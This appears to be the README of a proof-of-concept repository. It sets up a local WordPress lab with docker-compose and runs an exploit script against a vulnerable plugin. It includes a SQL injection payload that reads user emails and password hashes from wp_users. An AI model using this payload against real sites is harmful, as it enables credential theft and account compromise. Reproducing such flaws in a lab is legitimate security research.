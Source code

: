 # How to use
* Start mysql, wordpress and wordpress-cli using docker-compose
```
docker-compose -f docker-compose.yaml up -d
```
* Install wordpress, activate the plugin and create a user with the role subscriber using wordpress-cli
```
docker-compose run --rm wp-cli install-wp
```
* Start the exploit script with an sql query that gets users emails and passwords
```
python3 exploit.py -C 'union select 1,1,user_email,user_pass from wp_users -- '
```